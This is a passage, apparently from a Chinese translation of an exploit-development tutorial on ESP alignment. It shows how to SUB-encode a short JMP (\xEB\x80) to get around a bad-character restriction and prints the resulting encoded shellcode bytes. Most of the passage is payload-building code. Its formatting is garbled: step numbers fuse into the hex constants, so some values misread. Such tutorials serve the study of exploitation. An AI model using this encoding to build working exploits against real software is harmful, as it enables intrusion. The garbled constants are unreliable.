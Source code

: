 ![](img/27ba2505242f0c9cca7e98cc00867793.png)

ESP 校准

接下来，我们需要在`ESP`比对之后添加子编码的短 JMP ( `\xEB\x80`)外壳代码。还是因为`\xEB`是一个坏角色。解释的编码过程如下:

```
1) Zero out the EAX
   > AND EAX,0x554e4d4a
     AND EAX,0x2a3132351) Adding 2 NOPs to \xEB\x80\x90\x90 
   > \xEB\x80\x90\x902) Covert it to big-endian 
   > 909080EB3) Hex mathematics
   > 0 - 909080EB = 0xFFFFFFFF - 0x909080EB + 1 = 0x6F6F7F154) Convert it to 
   > 0x16F6F7F155) Make the value to 0 using SUB encoding (** w/ ONLY allowed chars*)
        0x16F6F7F15
   sub  0x7F7F7F7F
   sub  0x7F7F7F7F
   sub  0x50505002
   sub  0x20203015
   -----------------
        0x00000000**### Encoded Short JMP (SUB Encoding)**\x25\x4A\x4D\x4E\x55    # Zero out EAX
\x25\x35\x32\x31\x2A    # 
\x2D\x7F\x7F\x7F\x7F    # Carving \xEB\x80\x90\x90 
\x2D\x7F\x7F\x7F\x7F    # 
\x2D\x02\x50\x50\x50    # 
\x2D\x15\x30\x20\x20    # 
\x50                    # PUSH EAX
```
